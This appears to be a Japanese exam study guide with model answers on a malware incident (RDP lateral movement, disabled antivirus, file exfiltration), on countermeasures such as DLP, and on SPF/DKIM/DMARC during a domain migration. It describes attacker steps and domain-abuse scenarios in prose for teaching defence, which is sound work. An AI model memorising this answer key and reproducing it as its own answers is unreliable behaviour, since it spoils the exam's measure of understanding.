| **(h) ping で探索し RDP接続を試みる**<br>（失敗しても繰り返す） | ドメインサーバ<br>「**ログオンは、ドメインユーザーの利用者IDと<br>パスワードで行う**」＝認証ログが集まる |



**検出①の意義**：マルウェア対策ソフトを止められると、**そのホストからのマルウェア検知アラートは二度と上がらない**。つまり「**アラートが来ないこと**」が異常のサインになる。だから「マルウェア対策ソフトが停止した」こと自体を検出対象にする。これは**検知手段そのものが無効化される（Defense Evasion）**への対処として重要。

**検出②の意義**：表3を見ると、23:31:15 から 23:37:54 までの**約7分間に14回**のRDP接続試行がある。人間の操作としては異常な頻度・パターン。**短時間に複数ホストへのRDP接続が繰り返される**のは横展開の典型的なシグネチャ。しかも大半は**失敗**しているので、認証失敗ログの急増として検出できる。

**なぜ「自動的に」なのか**：X主任は「調査には時間が掛かるので、**調査と並行して**」と言っている。追加調査3（全ホストのタスク確認）は人手で時間がかかる。その間に新たな感染が起きても気づけないため、**リアルタイムに検知できる仕組み**を先に用意する。

**+α：この仕組みの正体**

これは実質的に **SIEM／UEBAによる相関分析**。

| 検出                         | ルールの型                                 |
| ---------------------------- | ------------------------------------------ |
| ① マルウェア対策ソフトの停止 | **状態監視型**（期待される状態からの逸脱） |
| ② RDP接続の繰返し            | **しきい値型**（単位時間あたりの試行回数） |

② は「10分間にN回以上のRDP認証失敗」のようなルールで実装でき、SIEMの相関ルールとして典型的。プロキシログの3URLへの通信検知（設問1(6)）も含めれば、**IoCベース・振る舞いベースの両輪**が揃う。

> **落とし穴**：「Fツールを定期実行する」は「自動的に検出する仕組み」として弱い（収集はできても検出にならない）。**既に存在するログ源（マルウェア対策サービス、ドメインサーバ）から何を検出するか**を書く。

---

### 設問2　空欄e・f　技術的対策

> **設問2**　表6中の　**e**　，　**f**　に入れる適切な字句を答えよ。
>
> （表6 攻撃者による目的実行までの活動を阻止するための技術的対策）
>
> | 今回の攻撃者による活動 | 技術的対策 |
> | --- | --- |
> | i.ps1 と q.ps1 を PC-A で実行させた。 | PowerShellの実行ポリシーを設定し、<br>署名のないスクリプトの実行を禁止する。 |
> | **PC-A からマルウェア感染を広げた。** | **e** |
> | **q.ps1 がファイルを不正に持ち出した。** | **f** |

**解答**

| 欄    | 解答例                                                          |
| ----- | --------------------------------------------------------------- |
| **e** | **仮想PCへのRDP接続に対して、IPアドレスによる接続元制限を行う** |
| **f** | **L社内にDLPを導入し、ファイルの持出しを制限する**              |

**解説**

**空欄e：感染拡大＝PC-A → PC-C への RDP接続**

表1 仮想PC：「従業員が**シンクライアントPCからRDPで接続**して利用する」「**各ドメインユーザーは、割り当てられた仮想PCにだけログオンできる**」

つまり**正規のRDP接続はオフィスLANのシンクライアントPCからのみ**。**仮想PC同士のRDP接続は業務上不要**。



**接続元IPアドレスによる制限**（オフィスLANのシンクライアントPCのセグメントからのみRDPを許可）を行えば、仮想PC間のRDPは成立しない。

表1の仮想PCの最後の行「マルウェア感染した場合、情シス部が仮想環境の仮想スイッチから切り離し、感染拡大を防ぐ」は**事後対応**であり、**事前に防ぐ仕組み**としては e が必要、という構成になっている。

**空欄f：ファイルの不正持出し**

q.ps1 (d) は「ファイルをRAR形式でアーカイブファイルにまとめ、`https://△△△.com/v/upl` を使ってアップロードする」。表4の **810MB** / 表5の **511MB** という送信量からも明らか。

**DLP（Data Loss Prevention）** は、機密情報の外部持出しを検知・ブロックする仕組み。

| DLPの機能            | 本件への効果                                          |
| -------------------- | ----------------------------------------------------- |
| コンテンツ検査       | 社外秘情報Lのパターンを検知して送信をブロック         |
| 大量データ送信の検知 | 511MBのアップロードを異常として検知                   |
| チャネル制御         | 未許可のクラウドストレージ・<br>Webアップロードを禁止 |

**+α：表6全体の構造 — サイバーキルチェーンに沿った対策**

| 攻撃者の活動               | キルチェーンの段階               | 技術的対策                       |
| -------------------------- | -------------------------------- | -------------------------------- |
| i.ps1 / q.ps1 を実行させた | エクスプロイト・<br>インストール | PowerShell実行ポリシー<br>＋署名 |
| PC-A から感染を広げた      | **横展開**                       | **RDPの接続元IPアドレス制限**    |
| ファイルを不正に持ち出した | **目的の実行（持出し）**         | **DLP**                          |

**「図3の暫定対策以外に」という条件**：図3の暫定対策（アカウント無効化、URLフィルタリング）は**今回のインシデントへの応急処置**。表6は「**今回と同様のマルウェア感染が起きた場合に備えて**」の恒久対策なので、**別の軸の対策**を答える必要がある。

> **落とし穴**：f に「プロキシで拒否リストに登録する」と書かない。それは図3の暫定対策（下線①）と同じであり、**URLを変えられたら無効**。「**ファイルの持出しそのものを制限する**」という別の軸を答える。

---

### 問1の学習ポイントまとめ

| フェーズ         | 今回の痕跡                                            | 見るべきログ                               |
| ---------------- | ----------------------------------------------------- | ------------------------------------------ |
| 初期侵入         | `△△△.com` から i.ps1 をダウンロード                   | net1.csv／プロキシログ                     |
| **永続化**       | **タスク名 install** の登録<br>（ログオン時トリガー） | **srv.csv**                                |
| ファイルレス実行 | q.ps1 を**メモリ上に展開**して実行                    | net1.csv<br>（ファイル生成ログが残らない） |
| 防御回避         | **VSCAN_SVC の停止**                                  | srv.csv／<br>マルウェア対策サービス        |
| 探索             | Dドライブ・`\\filesv` のファイル参照                  | file.csv                                   |
| 収集             | **s.rar** の作成（後に削除）                          | file.csv                                   |
| 持出し           | `/v/upl` へ 511MB アップロード                        | **net2.csv**（810MB）／<br>プロキシログ    |
| 横展開           | PC-A → 各PCへ RDP、**PC-C のみ成功**                  | **auth.csv**                               |
| C2               | 1時間おきに `○○○.com`、<br>拒否後は `□□□.com`         | net1.csv／<br>net2.csv（0.1MB/時）         |
| 痕跡消去         | s.rar の削除                                          | file.csv                                   |

**このタイムラインを1枚で描けるようになることが、この問題の最大の学習効果。**

---

## 問2 ドメイン名変更（A社）

### 題材の整理

| 項目         | 内容                                                                                                                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 企業         | **A社**：従業員1,000名の工作機械製造会社。<br>総務部・営業部・情報システム部・技術部・製造部                                                                                             |
| Webサイト    | **A-Webサイト**（Wサービスで提供）。<br>一般向けにIR情報と関連会社へのリンク、<br>**顧客向けに自社製工作機械管理用アプリケーション<br>プログラムとそのソフトウェア修正プログラム**を提供 |
| 現状の課題   | **A社のドメイン名を詐称したメールが<br>毎週2通程度**、顧客から報告されている                                                                                                             |
| 変更内容     | 3か月後にZ社へ社名変更。<br>`a-sha.co.jp`（**A社ドメイン名**）<br>→ `z-sha.co.jp`（**Z社ドメイン名**）                                                                                   |
| 担当         | 情報システム部の**N主任**と**Eさん**                                                                                                                                                     |
| 関係サービス | **Sサービス**（S社の権威DNS）／**Wサービス**（Webサイト）<br>→ 移行先は**Uサービス**（U社の商用メールサービス）                                                                          |



**移行手順（図2・図3）**

| ステップ       | 内容                                                                                                                                                                       |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Web-Step1〜3   | A-Webサイトのコンテンツを同一構成でZ-Webサイトに配置<br>→ **1年間リダイレクト** → A-Webサイト停止・DNSレコード削除                                                         |
| **Mail-Step1** | **試行期間1か月**。総務部・情シス部だけがZ社ドメイン名を使用。<br>送信対応のDMARCポリシーは**特定のアクションを要求しない**。<br>受信対応はDMARCの認証結果にかかわらず受信 |
| **Mail-Step2** | 図1のメールサーバの利用をやめ、**3か月間**実施。<br>Z社全体がUサービスでZ社ドメイン名を使用。<br>A社ドメイン名宛てのメールもUサービスで受信                                |
| **Mail-Step3** | 送信対応のDMARCポリシーを**隔離**に変更、<br>その**6か月後、拒否**に変更                                                                                                   |
| **Mail-Step4** | A社ドメイン名でのメールの受信を停止。<br>メールサーバ用のDNSレコードは削除                                                                                                 |
| Mail-Step5     | 問題がないと確認できたら、受信対応でDMARCの処理を行う                                                                                                                      |

**送信ドメイン認証の3点セット（この問の前提知識）**

| 技術      | 検証するドメイン        | 検証内容                                                                               | 転送に強いか                   |
| --------- | ----------------------- | -------------------------------------------------------------------------------------- | ------------------------------ |
| **SPF**   | **エンベロープFrom**    | 送信元IPが、そのドメインの<br>正規の送信サーバか                                       | ❌ **弱い**<br>（IPが変わる）   |
| **DKIM**  | **dタグの署名ドメイン** | 署名対象ヘッダー（hタグ）＋<br>本文が改ざんされていないか                              | △ 内容が変わら<br>なければ強い |
| **DMARC** | **ヘッダーFrom**        | SPF/DKIMの結果とヘッダーFromの<br>**アライメント**。失敗時のポリシーを<br>送信側が宣言 | —                              |

---

### 設問1(1)　空欄a　メールサーバが受信するドメイン名

> **設問1**　〔情報システムの現状〕について答えよ。
> **(1)** 表1中及び表2中の　**a**　に入れる適切な字句を答えよ。
>
> （表1 メールサーバの機能）・宛先メールアドレスのドメイン名が　**a**　であるメールをメールボックスに格納する。
>
> （表2 第三者中継防止のためのルール）
>
> | 項番 | 転送元 | 宛先メールアドレスのドメイン名 | 転送処理 |
> | --- | --- | --- | --- |
> | 1 | インターネット | **a** | 許可 |
> | 2 | PC-LAN | **b** | 許可 |
> | 3 | 業務サーバ | A社ドメイン名 | 許可 |
> | 4 | 全て | 全て | 拒否 |
>
> 注記　項番が小さいルールから順に、最初に一致したルールが適用される。

**解答**：**A社ドメイン名**

**解説**

**第三者中継（オープンリレー）防止の基本形**



メールサーバが許可してよい転送は次の2種類だけ。

| 向き     | 転送元         | 宛先ドメイン                        | 意味                             |
| -------- | -------------- | ----------------------------------- | -------------------------------- |
| **受信** | インターネット | **自ドメイン<br>（A社ドメイン名）** | 外から自社宛てのメールを受け取る |
| **送信** | 社内（PC-LAN） | **全て**                            | 社内から外部へ送る               |

**禁止しなければならないのが「外部 → 外部」**。これを許すと**オープンリレー（第三者中継）**となり、スパムの踏み台にされる。

項番1で宛先を「A社ドメイン名」に限定することで、インターネットから来たメールを外部ドメインへ中継しない。項番4の「全て／全て／拒否」がデフォルト拒否として最後に効く。

> **落とし穴**：a に「全て」を入れない。それではオープンリレーになる。**受信側は自ドメイン限定、送信側は全ドメイン許可**と覚える。

---

### 設問1(2)　空欄b　PC-LANからの転送で許可する宛先ドメイン

> **(2)** 表2中の　**b**　に入れる適切な字句を答えよ。

**解答**：**全て**

**解説**

PC-LAN内のPCは**A社の従業員が業務で使う端末**。冒頭に「A社では、電子メールを用いて、顧客との間で見積書や注文書の送受信をしたり、**ニュースサイトのメールマガジンに登録して**最新の情報を収集したりしている」とあるとおり、**あらゆる外部ドメイン宛てにメールを送る**。したがって宛先ドメインは「全て」を許可する。

**項番3（業務サーバ → A社ドメイン名）との対比が理解のカギ**

| 転送元         | 宛先              | 理由                                                               |
| -------------- | ----------------- | ------------------------------------------------------------------ |
| **PC-LAN**     | **全て**          | 従業員が社外の取引先等へメールを送るため                           |
| **業務サーバ** | **A社ドメイン名** | 業務サーバは**社内向けの通知**だけを送れば<br>よい（**最小権限**） |

同じ社内でも、**用途に応じて許可範囲を絞る**という設計思想が表れている。業務サーバが乗っ取られても、外部へのスパム送信には使えない。

> **落とし穴**：「A社ドメイン名」と書かない。それでは従業員が社外にメールを送れなくなり、業務が成立しない。

---

### 設問2　空欄c　メール転送の暗号化（英字10字以内）

> **設問2**　表5中の　**c**　に入れる適切な字句を**英字10字以内**で答えよ。
>
> （表5 Uサービスの機能の概要／メール転送）・インターネットとの間は、**SMTPをTLSで暗号化する**　**c**　を使用してメールを転送することができる。

**解答**：**SMTPS**

**解説**

「SMTPをTLSで暗号化する」方式の名称。SMTP over TLS を指す一般的な呼称が **SMTPS**（5文字で英字10字以内に収まる）。

**+α：メール経路の暗号化方式の整理**

| 方式                         | ポート   | 仕組み                                                                |
| ---------------------------- | -------- | --------------------------------------------------------------------- |
| **SMTPS（Implicit TLS）**    | 465      | **最初からTLSで接続**する                                             |
| **STARTTLS（Explicit TLS）** | 587 / 25 | 平文で接続した後、<br>`STARTTLS` コマンドで**TLSに切り替える**        |
| Submission                   | 587      | クライアント → サーバの送信専用ポート<br>（SMTP-AUTH と組み合わせる） |

**送受信プロトコルの対応**

| 用途            | 平文                       | 暗号化                          |
| --------------- | -------------------------- | ------------------------------- |
| 送信（MUA→MSA） | SMTP(25) / Submission(587) | **SMTPS(465)** / STARTTLS       |
| 受信            | POP3(110) / IMAP(143)      | **POP3S(995)** / **IMAPS(993)** |

**経路の暗号化とメール本文の暗号化は別物**

| 対象           | 技術             | 守る範囲                                     |
| -------------- | ---------------- | -------------------------------------------- |
| **経路**       | SMTPS / STARTTLS | サーバ間の**通信路**<br>（サーバ上では平文） |
| **メール本文** | S/MIME / PGP     | **エンドツーエンド**<br>（送信者→受信者）    |

本問のcは**経路の暗号化**。詐称対策（SPF/DKIM/DMARC）とは役割が異なる（**暗号化 ≠ 送信者認証**）点を混同しない。

> **落とし穴**：「TLS」「STARTTLS」と書きたくなるが、設問が「SMTPをTLSで暗号化する　c　」＝**プロトコルの名称**を求めているので **SMTPS**。

---

### 設問3(1)　下線①　DKIMレコードのFQDN

> **設問3**　〔送信対応の設定内容についての検討〕について答えよ。
> **(1)** 本文中の下線①のFQDNを解答群の中から選び、記号で答えよ。
>
> （本文）表6から、**①DKIMレコードの名称として使用するFQDNが決まる。**
>
> （表6 タグの内容（抜粋））
>
> | タグ | 内容 |
> | --- | --- |
> | v | 1 |
> | a | rsa-sha256 |
> | **d** | **z-sha.co.jp** |
> | h | From:To:Subject:Date:Message-ID:MIME-Version |
> | **s** | **z2024** |
>
> 　解答群
> 　　ア　`rsa-sha256._dkim.z-sha.co.jp`
> 　　イ　`rsa-sha256._domainkey.z-sha.co.jp`
> 　　ウ　`z2024._dkim.z-sha.co.jp`
> 　　エ　`z2024._domainkey.z-sha.co.jp`
> 　　オ　`z2024.z-sha.co.jp`

**解答**：**エ（`z2024._domainkey.z-sha.co.jp`）**

**解説**

RFC 6376 により、DKIMの公開鍵レコードの名前は次の形式と定められている。

```text
<セレクタ> . _domainkey . <署名ドメイン>
    ↓            ↓              ↓
  s タグ     固定文字列      d タグ
  z2024     _domainkey     z-sha.co.jp

→ z2024._domainkey.z-sha.co.jp
```

**誤答の理由**

| 誤答   | 理由                                                                 |
| ------ | -------------------------------------------------------------------- |
| ア・イ | `rsa-sha256` は **a タグ（署名アルゴリズム）**。<br>FQDNには使わない |
| ア・ウ | `_dkim` ではなく **`_domainkey`** が正しい（仕様で固定）             |
| オ     | `_domainkey` が抜けている                                            |

**セレクタ（sタグ）の役割**

1つのドメインで**複数のDKIM鍵を使い分ける**ための識別子。



- サービスごとに別の鍵を使える（Uサービス、Tサービス、Yサービス…）
- **鍵のローテーション**が容易（新セレクタで新鍵を公開し、切り替え後に旧セレクタを削除）

**受信側の検証の流れ**



> **落とし穴**：`_domainkey` の**アンダースコア**を忘れない。また s タグと a タグを取り違えない。**「セレクタ ＋ _domainkey ＋ 署名ドメイン」**と唱えて覚える。

---

### 設問3(2)　空欄d　試行期間のDMARCポリシー

> **(2)** 図4中の　**d**　に入れる適切な字句を解答群の中から選び、記号で答えよ。
>
> （図4 DMARCレコード）`v=DMARC1; p=　d　; rua=mailto:rua-report@z-sha.co.jp`
>
> 　解答群　　ア　accept　　イ　none　　ウ　quarantine　　エ　receive　　オ　reject
>
> （図3 Mail-Step1）試行期間として次を1か月間、実施する。
> ・送信対応では、**DMARCポリシーを、特定のアクションを要求しないこととし**、メールを受信してもらう。

**解答**：**イ（none）**

**解説**

**DMARCポリシーの3つの値**

| p の値         | 受信側に要求するアクション                                                             | 用途                             |
| -------------- | -------------------------------------------------------------------------------------- | -------------------------------- |
| **none**       | **特定のアクションを要求しない**<br>（通常どおり配送し、**レポートだけ送ってもらう**） | **導入初期の監視モード**         |
| **quarantine** | 迷惑メールフォルダ等に**隔離**                                                         | 段階的強化の中間                 |
| **reject**     | **受信拒否**                                                                           | 最終形。詐称メールを完全に止める |

`accept` `receive` はDMARCに存在しない値（ダミー選択肢）。

**なぜ最初から reject にしないのか — 段階的導入が必須である理由**



DMARCをいきなり `reject` にすると、**設定漏れのある正規メールが全て拒否され、業務が止まる**。実際この問題では、

- **一斉配信サービスT**（設問5(1)）：SPFレコードにTサービスの送信元IPが未登録
- **メーリングリストY**（設問5(2)）：Yサービスから送信され、Subjectも書き換わる

という**2つの落とし穴**が後から見つかっている。`p=none` の期間にDMARCレポート（rua）を分析することで、これらを事前に発見できる。

**+α：rua タグの役割**

`rua=mailto:rua-report@z-sha.co.jp` は **集約レポート（Aggregate Report）** の送付先。受信側メールサーバが「あなたのドメインを名乗るメールをこれだけ受け取り、SPF/DKIMの結果はこうでした」というXMLレポートを日次で送ってくる。

| 本文での言及                                                                                              | 出典                              |
| --------------------------------------------------------------------------------------------------------- | --------------------------------- |
| **DMARCレポートを分析する**                                                                               | 表3 項番5                         |
| 送信したメールについて**DMARCレポートの分析結果を<br>参照することができる**                               | 表5 Uサービス管理Web              |
| Mail-Step1において、**DMARCレポートの分析結果を<br>参照した結果、送信対応には問題がないことが確認できた** | 〔Uサービスへの<br>移行の見直し〕 |

**DMARCは「設定して終わり」ではなくレポート分析の運用が本体**というメッセージ。

> **落とし穴**：`quarantine` を選ばない。「特定のアクションを**要求しない**」＝ **none**。

---

### 設問4(1)　下線②　旧ドメイン名を使ったWebの悪用

> **設問4**　〔A社ドメイン名の契約についての検討〕について答えよ。
> **(1)** 表7中の下線②について、攻撃の方法を具体的に答えよ。
>
> （表7 A社ドメイン名の悪用例／Webの悪用）第三者が、A社ドメイン名を用いて、現在のA-Webサイトと見た目が同じWebサイトを立ち上げるという悪用が考えられる。さらに、第三者が、**コンテンツを細工してWebサイトの見た目を変えずに②顧客に影響を及ぼす攻撃**をすることが考えられる。

**解答**：**ソフトウェア修正プログラムに見せかけたマルウェアをダウンロードさせる。**

**解説**

**A-Webサイトが何を配布していたかに立ち返る**

> A社のWebサイトでは、一般向けにIR情報と関連会社へのリンクを、**顧客向けに自社製工作機械管理用アプリケーションプログラムとそのソフトウェア修正プログラムを提供している**。（冒頭）



**「見た目を変えずに」という条件が重要**。見た目が同じなら顧客は疑わない。では何を細工するのか？ → **ダウンロードさせるファイルの中身**。

顧客は**セキュリティパッチを当てるために自らダウンロードしに来る**。これをマルウェアにすり替えれば、

| 効果                                   | 理由                       |
| -------------------------------------- | -------------------------- |
| 顧客は**疑いなく実行する**             | 正規のパッチだと信じている |
| **管理者権限で実行される**可能性が高い | プログラムの更新なので     |
| **OT／制御系に近い環境**に侵入できる   | 工作機械の管理システム     |

**+α：ドメイン名の失効と再取得（Dropcatch）**

| 論点         | 内容                                                                                                               |
| ------------ | ------------------------------------------------------------------------------------------------------------------ |
| 何が起きるか | 契約を解約したドメイン名は**誰でも取得できる**ようになる                                                           |
| なぜ危険か   | ①**過去のリンクやブックマークが生きている**<br>②**検索結果に残っている**<br>③**メールの宛先として使われ続ける**    |
| 日本での事例 | 自治体・企業の廃止済みサイトのドメインが第三者に<br>取得され、アダルトサイトや詐欺サイトに転用される<br>事例が多数 |
| 対策         | **ドメイン名の契約を継続する**<br>（本問でN主任とEさんが出した結論）                                               |

> **落とし穴**：「フィッシングサイトを作る」だけでは表7の前段（見た目が同じサイトを立ち上げる）の繰り返しになる。下線②は「**さらに**、コンテンツを細工して**見た目を変えずに**」と書いているので、**見た目以外の部分＝配布物の中身**を攻撃対象にする点を書く。

---

### 設問4(2)　下線③　旧ドメイン名でメールを受信する悪用

> **(2)** 表7中の下線③について、**受信するメールの内容及び続きの攻撃の例**を具体的に答えよ。
>
> （表7 A社ドメイン名の悪用例／メールの受信）従業員が業務で用いる社外サービスがあり、メールでの連絡先として、A社ドメイン名のメールアドレスを登録していたとする。もし連絡先の変更を忘れてしまうと、**③第三者が、社外サービスからA社ドメイン名のメールアドレスへのメールを受信し、そのメールを使って続きの攻撃を行う**という悪用が考えられる。

**解答**

| 欄                       | 解答例                                                      |
| ------------------------ | ----------------------------------------------------------- |
| **受信するメールの内容** | **社外サービスのパスワード再設定画面のURLが書かれたメール** |
| **続きの攻撃の例**       | **任意のパスワードを設定し、アカウントを乗っ取る。**        |

**解説**

**メールアドレスは「本人確認の最後の砦」**

